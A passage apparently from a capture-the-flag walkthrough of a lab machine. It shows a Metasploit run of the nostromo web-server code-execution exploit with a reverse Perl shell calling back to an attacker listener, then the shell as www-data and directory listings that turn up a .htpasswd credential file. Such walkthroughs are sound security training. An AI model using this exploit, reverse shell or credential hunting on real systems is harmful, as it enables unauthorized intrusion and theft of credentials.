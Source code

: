
    Payload options (cmd/unix/reverse_perl):

       Name   Current Setting  Required  Description
       ----   ---------------  --------  -----------
       LHOST  10.10.15.7       yes       The listen address (an interface may be specified)
       LPORT  4444             yes       The listen port


    Exploit target:

       Id  Name
       --  ----
       0   Automatic (Unix In-Memory)


    msf5 exploit(multi/http/nostromo_code_exec) > run

    [*] Started reverse TCP handler on 10.10.15.7:4444
    [*] Configuring Automatic (Unix In-Memory) target
    [*] Sending cmd/unix/reverse_perl command payload
    [*] Command shell session 2 opened (10.10.15.7:4444 -> 10.10.10.165:56360) at 2019-11-27 09:50:39 +0100

    id
    uid=33(www-data) gid=33(www-data) groups=33(www-data)

## nostromo

We got a shell as `www-data`. We start enumerating the box. There is a specific
folder for the [nostromo web server](http://www.nazgul.ch/dev_nostromo.html). In
`/var/nostromo/` we found some configuration files.

```
ls /var/
backups
cache
lib
local
lock
log
mail
nostromo
opt
run
spool
tmp
ls /var/nostromo/
conf
htdocs
icons
logs
ls -al /var/nostromo/
total 24
drwxr-xr-x  6 root     root   4096 Oct 25 14:43 .
drwxr-xr-x 12 root     root   4096 Oct 25 14:43 ..
drwxr-xr-x  2 root     daemon 4096 Oct 27 16:12 conf
drwxr-xr-x  6 root     daemon 4096 Oct 25 17:11 htdocs
drwxr-xr-x  2 root     daemon 4096 Oct 25 14:43 icons
drwxr-xr-x  2 www-data daemon 4096 Nov 27 03:39 logs
ls -al /var/nostromo//conf/
total 20
drwxr-xr-x 2 root daemon 4096 Oct 27 16:12 .
drwxr-xr-x 6 root root   4096 Oct 25 14:43 ..
-rw-r--r-- 1 root bin      41 Oct 25 15:20 .htpasswd
-rw-r--r-- 1 root bin    2928 Oct 25 14:26 mimes
-rw-r--r-- 1 root bin     498 Oct 25 15:20 nhttpd.conf
```
